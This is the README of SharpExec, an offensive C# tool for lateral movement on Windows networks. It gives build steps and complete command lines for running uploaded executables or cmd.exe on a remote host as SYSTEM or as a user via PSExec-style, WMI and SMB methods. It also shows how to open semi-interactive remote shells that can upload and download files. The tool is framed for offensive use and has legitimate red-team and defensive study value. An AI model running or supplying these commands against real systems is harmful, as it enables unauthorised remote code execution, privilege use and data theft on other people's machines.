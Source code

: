 # SharpExec

Description
============

SharpExec is an offensive security C# tool designed to aid with lateral movement. 

It currently includes:

-PSExec (like functionality) - Gives the operator the ability to execute remote commands as NT Authority\System or upload a file and execute it with or without arguments as NT Authority\System.

-WMI - Gives the operator the ability to execute remote commands as the user or upload a file and execute it with or without arguments as the user.

-WMIExec - Semi-Interactive shell that runs as the user. Best described as a less mature version of Impacket's wmiexec.py tool.

-SMBExec - Semi-Interactive shell that runs as NT Authority\System.  Best described as a less mature version of Impacket's smbexec.py tool.

In the Future I would like to add:

Lateral movement through DCOM
Pass the hash functionality

Contact at:
- Twitter: @anthemtotheego

Quick blog:

http://blog.redxorblue.com/2018/10/sharpcradle-loading-remote-c-binaries.html

**Before submitting issues, this tool may not always be updated actively. I encourage you to borrow, add, mod, and/or make your own.  Remember, all the awesome code out there (and there is a lot) can be taken/modified to create your own custom tools.**

![Alt text](/sharpexec.PNG?raw=true "SharpExec")

Setup - Quick and Dirty
==============================

**Note: For those of you who don't want to go through the trouble of compiling your own I uploaded an x64 and x86 binary found in the CompiledBinaries folder.  For those of you who do want to compile your own... I used Windows 10, Visual Studio 2017 - mileage may vary**

1. Download SharpExec tool and open up SharpExec.sln  

2. Open up SharpExec.sln in Visual Studio and compile (make sure to compile for correct architecture) - Should see drop down with Any CPU > Click on it and open Configuration Manager > under platform change to desired architecture and select ok.

3. Inside visual studio, right click References on the righthand side, choose Add Reference, then under Assemblies, search for System.Management, check the box and click OK.

4. Compile, again make sure for the correct architecture (x64 or x86), drop binary on computer or pull into memory and have fun.

Examples 
========

Note - All modules require Administrative rights on the target systems
Note - If you the user who runs SharpExec has administrative rights to the target system, username/password/domain options on not required.

PSExec Module:

Uploads file from User1's desktop to C:\ on remote system and executes it as NT Authority\System

```SharpExec.exe -m=psexec -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain -f=C:\users\user1\desktop\noPowershell-noargs.exe -e=C:\noPowershell-noargs.exe```

Runs command via cmd.exe on target system as NT Authority\System

```SharpExec.exe -m=psexec -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain -e=C:\Windows\System32\cmd.exe -c="My Args"```

WMI Module:

Uploads file from User1's desktop to C:\ on remote system and executes it as TargetUser

```SharpExec.exe -m=wmi -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain -f=C:\users\user1\desktop\noPowershell-noargs.exe -e=C:\noPowershell-noargs.exe```

Runs command via cmd.exe on target system as TargetUser

```SharpExec.exe -m=wmi -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain -e=C:\Windows\System32\cmd.exe -c="My Args"```

WMIExec Module:

Starts semi-interactive shell on remote system as TargetUser

```SharpExec.exe -m=wmiexec -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain```

While shell is running

```put                  Upload file from local directory to current shell directory, put fullLocalPath\\File.txt File.txt```
```get                  Download file from current shell directory to local directory, get File.txt fullLocalPath\\File.txt```
```help                 Show help menu```
```exit                 exit shell```

SMBExec Module:

Starts semi-interactive shell on remote system as NT Authority\System

```SharpExec.exe -m=smbexec -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain```

While semi-interactive shell is running

```put               ``````Upload file from local directory to current shell directory, put fullLocalPath\File.txt fullLocalPath\File.txt```
```get               ``````Download file from current shell directory to local directory, get fullLocalPath\File.txt fullLocalPath\File.txt```
```help              ``````Show help menu```
```exit              ``````exit shell```

